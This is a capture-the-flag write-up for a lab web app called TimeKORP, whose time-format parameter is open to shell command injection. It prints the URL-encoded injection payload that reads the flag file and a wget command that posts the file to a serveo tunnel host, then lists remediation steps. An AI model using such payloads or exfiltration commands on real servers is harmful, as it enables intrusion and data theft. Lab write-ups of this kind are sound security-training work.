 TimeKORP is a web application that fetches the current time from the backend server. However, it is vulnerable to command injection. 
Very exciting twists in this lab, and lots of lessions learned.

To solve the challenge, discover the injectable parameter by intercepting a request with Burp Suite.
`/?format=%H:%M`
this returned the time from the server.

it can be injected by encapsulating `%H:%M` in single qoutes adding `;<command>` that is, `‘%H:%M;<command>’`
This causes command execution on the server.

However, the buffer for the website only showed one line at a time, that is the last line of any command result and the the flag since it was not conventionally named (flag.txt). Therefore, commands like `find` which returned many lines were of no use. Exfiltrating retults of the same was to no avail. Below, you will find lots of failed attempts including exfiltration through a tunnel, directory listing, base64 encoding to exfiltrate. 

the flag could be retrieved by `‘%H:%M;cat /flag’ `that is `/?format=%27%H:%M;cat%20/flag%27`

Lessons Learnt
Learnt about setting up a tunnel with serveo to expose a private IP to the internet. 
Data exfiltration throught wget and a serveo tunnel
```
wget --post-file=/flag https://fd606f13904bcb33418d892c3c293f6c.serveo.net
```
Remediation
- Do not invoke shell commands. Instead, use the programming language's date and time functions.
- Do not try to sanitise user input. Instead, have a strick whitelist and use a time-formatting API.
- Employ defence-in-depth, that is, least privilege, segregation (app has no access to sensitive files), employ egress restriction.
   
<img width="1811" height="990" alt="flag1" src="https://github.com/user-attachments/assets/4d151f84-7373-416c-acaf-2ad4802078c6" />

<img width="664" height="675" alt="serveo" src="https://github.com/user-attachments/assets/aa8c02e0-314f-42af-8c7f-f1e343afa9c0" />

<img width="661" height="1307" alt="etc-folder" src="https://github.com/user-attachments/assets/c7fdad6e-49f9-478b-84e3-52a1885bb145" />
